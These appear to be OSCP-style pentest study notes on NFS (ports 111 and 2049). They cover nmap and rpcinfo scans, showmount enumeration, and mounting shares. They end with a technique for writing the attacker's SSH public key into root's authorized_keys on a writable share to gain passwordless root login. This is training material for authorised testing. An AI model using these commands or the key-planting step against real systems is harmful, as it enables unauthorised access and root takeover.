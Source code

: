 ```yaml
---
title: "111, 2049 - NFS"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - nfs
toc: true
hide_title: true
excerpt: ""
---
```


## Nmap Scan on RPCbind and NFS

```
nmap -v -p 111 10.11.1.1-254

nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254

nmap -p 111 --script nfs* 10.11.1.72
```
# Identifying if NFS is in use

```
rpcinfo -p 10.10.10.3

# If you get 111 and 2049 listed , shares are enable and we can mount them
```

## Show all mounts

```
showmount -e 10.10.10.3
```

## Mount a NFS share

```
mkdir /mnt/nfs
```

```
mount -t nfs $ip:/share /mnt/nfs
```

## Unmounting the shares

```
umount -f -l /mnt/nfs
# -f – Force unmount (in case of an unreachable NFS system).
# -l – Lazy unmount. Detach the filesystem from the filesystem hierarchy now, and cleanup all references to the filesystem as soon as it is not busy anymore.
```

# Further Exploitation

**If you can write to the remote hosts, try to put ssh key there** so that we can get remote ssh without password

```
ssh keygen
# Generating ssh keys

cat ~/.ssh/id_rsa.pub >> /mnt/nfs/root/.ssh/authorized_keys
# Putting it to remote host

ssh root@$ip
# Now can login without password on target
```

